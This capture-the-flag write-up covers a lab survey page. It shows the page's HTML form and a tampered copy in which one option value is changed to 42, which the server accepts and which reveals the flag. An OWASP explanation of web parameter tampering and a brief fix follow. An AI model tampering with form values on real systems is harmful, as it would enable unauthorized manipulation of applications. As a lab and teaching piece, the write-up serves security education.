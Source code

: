 # Survey

On the Survey page <http://[VM_IP]/?page=survey> you can grade wil, alex, Thor, Ben, ol.

![survey](./img/survey.png)

If we look on source code we see that an expected grade is between 1 and 10:
```
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
    	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
			<option value="1">1</option>
			<option value="2">2</option>
			<option value="3">3</option>
			<option value="4">4</option>
			<option value="5">5</option>
			<option value="6">6</option>
			<option value="7">7</option>
			<option value="8">8</option>
			<option value="9">9</option>
			<option value="10">10</option>
		</SELECT>
</form>
```

We can try changing survey value to 42, for example, and sending it.

```
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
    	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
			<option value="1">1</option>
			<option value="2">2</option>
			<option value="3">3</option>
			<option value="4">4</option>
			<option value="5">5</option>
			<option value="6">6</option>
			<option value="42">7</option>
			<option value="8">8</option>
			<option value="9">9</option>
			<option value="10">10</option>
		</SELECT>
</form>
```

![grades](./img/grades.png)

We have our flag

![flag](./img/flag.png)

## Explanation

Attack type: [Web Parameter Tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering): Hidden field manipulation

> When a web application uses hidden fields to store status information, a malicious user can tamper with the values stored on their browser and change the referred information.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Do not forget to verify user input before processing it.
